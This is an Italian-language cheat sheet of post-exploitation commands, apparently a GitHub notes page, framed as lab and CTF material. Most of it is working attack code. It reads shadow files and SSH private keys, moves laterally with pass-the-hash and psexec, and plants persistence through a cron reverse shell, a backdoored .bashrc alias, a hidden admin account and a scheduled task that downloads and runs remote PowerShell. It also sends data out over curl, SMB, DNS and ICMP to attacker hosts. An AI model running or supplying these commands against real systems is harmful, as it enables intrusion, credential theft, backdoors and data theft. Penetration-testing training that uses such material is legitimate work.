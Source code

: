 # 🎯 Post Exploitation

Appunti e snippet per la fase di **post-sfruttamento**.
Obiettivo: consolidare l’accesso, raccogliere prove, muoversi lateralmente e simulare l’esfiltrazione dati (solo in ambienti di test o CTF).

---

## 📌 Obiettivi

* Raccogliere **evidenze** utili (utenti, credenziali, file sensibili, network info).
* Stabilire **persistence** per non perdere l’accesso.
* Effettuare **lateral movement** (solo lab controllati).
* Simulare **data exfiltration** per valutare la sicurezza (solo test/CTF).

---

## 🗂️ Evidence Gathering

**Perché farlo:**
Consolidare le informazioni ottenute dall’accesso, senza generare rumore inutile.

### 🔹 Linux

```bash
# Info base sull’utente
whoami
id
groups

# Ultimi login
last -a
lastlog

# Utenti del sistema
cat /etc/passwd
awk -F: '($3 == "0") {print}' /etc/passwd   # utenti con UID 0

# Credenziali shadow (se leggibile → da crackare in lab)
cat /etc/shadow

# Processi attivi
ps aux
top -bn1

# Porte e connessioni di rete
ss -tunlp
netstat -anp

# Config di rete
ip a
ip route

# Cronjob
cat /etc/crontab
ls -lah /etc/cron.*

# Config & history (potenziali credenziali)
cat ~/.bash_history
cat ~/.ssh/known_hosts
cat ~/.ssh/id_rsa
```

### 🔹 Windows

```powershell
# Utente attuale e privilegi
whoami
whoami /priv
echo %username%

# Lista utenti locali
net user
net localgroup administrators

# Processi e servizi
tasklist /v
sc query type= service state= all

# Informazioni di rete
ipconfig /all
netstat -ano

# Credenziali salvate
cmdkey /list   # credenziali memorizzate
```

### 🔹 Tool utili

* **LinPEAS / WinPEAS** → raccolta automatica di info utili per priv esc & post-exploitation
* **Seatbelt (Windows)** → enumerazione avanzata (privilegi, chiavi di registro, credenziali, AV)
* **SharpUp (Windows)** → escalation checks rapidi
* **BloodHound/SharpHound** → mappatura Active Directory

---

## 🔄 Lateral Movement (solo lab/test)

**Perché farlo:**
Simulare lo spostamento laterale in una rete compromessa.
⚠️ Da fare solo in lab/CTF, **mai in ambienti reali**.

### 🔹 Linux

```bash
# Uso credenziali trovate
ssh user@<target-ip>

# Connessione con chiave privata rubata
ssh -i id_rsa user@<target-ip>

# Passaggio file con scp
scp secret.txt user@<target-ip>:/tmp/
```

### 🔹 Windows / Active Directory

```powershell
# Pass-the-Hash (Impacket)
pth-winexe -U 'DOMAIN/user%aad3b435b51404eeaad3b435b51404ee:HASH' //<target-ip> cmd

# WMI Exec (Impacket)
wmiexec.py DOMAIN/user:Password@<target-ip>

# PsExec (Sysinternals / Impacket)
psexec.py DOMAIN/user:Password@<target-ip>
```

**Tool utili:**

* **Impacket suite** → `psexec.py`, `wmiexec.py`, `smbexec.py`, `dcomexec.py`
* **CrackMapExec** → enumerate, lateral move, spray, pass-the-hash
* **Mimikatz** → estrazione credenziali in memoria + pass-the-ticket

---

## ♻️ Persistence

**Perché farlo:**
Mantenere accesso anche dopo reboot o logout (solo in test/lab).

### 🔹 Linux

```bash
# Backdoor SSH (aggiunta chiave)
echo 'ssh-rsa AAAAB3... attacker@lab' >> ~/.ssh/authorized_keys

# Reverse shell via cronjob
echo "* * * * * /bin/bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1" >> /etc/crontab

# Alias persistente
echo "alias ls='ls -la --color=auto; /bin/bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1'" >> ~/.bashrc
```

### 🔹 Windows

```powershell
# Nuovo utente admin
net user backdoor Passw0rd! /add
net localgroup administrators backdoor /add

# Scheduled task per reverse shell
schtasks /create /sc minute /mo 5 /tn "Updater" /tr "powershell -c IEX(New-Object Net.WebClient).DownloadString('http://<attacker-ip>/rev.ps1')"

# Run key persistence
reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v Updater /t REG_SZ /d "C:\backdoor.exe"
```

**Tool utili:**

* **Metasploit persistence module**
* **Empire / Covenant** → persistence & C2 frameworks

---

## 📤 Data Exfiltration (solo lab/test)

**Perché farlo:**
Simulare l’uscita di dati sensibili.
⚠️ Da eseguire **solo in ambienti controllati**.

### 🔹 Linux

```bash
# Trasferimento via scp
scp /etc/passwd attacker@<ip>:/tmp/

# File encode per aggirare controlli
cat secret.txt | base64 > secret.b64
```

### 🔹 Windows

```powershell
# Encode file con certutil
certutil -encode secret.txt secret.b64

# Trasferimento con SMB (impacket-smbserver)
impacket-smbserver share /tmp/
copy secret.txt \\<attacker-ip>\share
```

### 🔹 Canali alternativi (lab)

* **HTTP exfiltration** → `curl -X POST -d @file http://<attacker-ip>/upload`
* **DNS exfiltration** → `nslookup $(cat secret.txt).attacker.com`
* **ICMP exfiltration** → `ping -c 1 "$(cat secret.txt)"@attacker.com`

**Tool utili:**

* **exfiltrator**, **dnsExfiltrator**, **iodine** (DNS tunneling), **plink** (tunnel TCP → SSH)

---

## 📚 Risorse utili

* [PayloadsAllTheThings – Post Exploitation](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Post-Exploitation)
* [HackTricks – Post Exploitation](https://book.hacktricks.xyz/windows-hardening/post-exploitation)
* [LOLBAS](https://lolbas-project.github.io/) – Living Off The Land Binaries and Scripts (Windows)
* [GTFOBins](https://gtfobins.github.io/) – Escalation & persistence su Linux binaries
* [BloodHound](https://github.com/BloodHoundAD/BloodHound) – Active Directory attack path mapping

---
